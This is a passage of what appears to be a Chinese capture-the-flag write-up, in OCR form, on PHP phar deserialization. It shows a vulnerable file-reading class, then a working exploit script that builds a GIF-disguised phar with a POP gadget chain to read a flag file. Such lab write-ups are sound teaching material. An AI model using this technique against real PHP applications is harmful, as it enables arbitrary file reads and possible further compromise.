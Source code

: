 ```
    {
        return $this-&gt;get($key);
    }
    public function get($key)
    {
        if(isset($this-&gt;params[$key])) {
            $value = $this-&gt;params[$key];
        } else {
            $value = "index.php";
        }
        return $this-&gt;file_get($value);
    }
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
?&gt;

```

> 
POP链构造



> 
exp构造


```
&lt;?php
class C1e4r
{
    public $test;
    public $str;
}
class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params = array('source' =&gt; 'var/www/html/f1ag.php');
}

    @unlink("c1e4r.phar");
    $phar = new Phar("c1e4r.phar");
    $phar-&gt;startBuffering();
    $phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;");
    $p1 = new C1e4r();
    $p2 = new Show();
    $p2-&gt;str = array('str'=&gt;new Test());
    $p1-&gt;str = $p2;

    $phar-&gt;setMetadata($p1); 
    var_dump($phar-&gt;getMetadata());
    $phar-&gt;addFromString("test.txt", "c1e4r"); 
    //签名自动计算
    $phar-&gt;stopBuffering();
?&gt;

```